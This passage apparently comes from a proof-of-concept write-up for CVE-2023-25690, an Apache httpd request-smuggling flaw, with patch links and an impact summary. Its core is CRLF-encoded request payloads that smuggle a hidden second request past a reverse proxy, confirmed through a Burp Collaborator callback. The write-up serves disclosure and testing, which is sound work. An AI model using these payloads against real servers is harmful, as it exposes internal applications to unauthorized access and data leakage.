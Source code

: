 with the following prefix we are able to send the second request to hidden functionallity:

```bash
 HTTP/1.1\r\nHost: localhost\r\n\r\nGET /categories.php?secret=im8uzc5sbq7xasyxk5yhfc734uaky9.burpcollaborator.net
%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php?secret=im8uzc5sbq7xasyxk5yhfc734uaky9.burpcollaborator.net
```

```bash
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php%3fsecret%3dq0r2dkj0pyl5o0c5ydcptklbi2otci.burpcollaborator.net HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```

and retrieve the request on burp collaborator:
![](https://github.com/dhmosfunk/CVE-2023-25690-POC/blob/main/assets/request.png?raw=true)

Patches:

- [https://github.com/apache/httpd/commit/8789f6bb926fa4c33b4231a8444340515c82bdff](https://github.com/apache/httpd/commit/8789f6bb926fa4c33b4231a8444340515c82bdff)
- [https://github.com/apache/httpd/commit/8b93a6512f14f5f68887ddfe677e91233ed79fb0](https://github.com/apache/httpd/commit/8b93a6512f14f5f68887ddfe677e91233ed79fb0)

## Impact

The impact of this vulnerability is that it allows attackers to target and access internal applications that are meant to be hidden by the reverse proxy, potentially leading to unauthorized access, data leakage, or further exploitation.
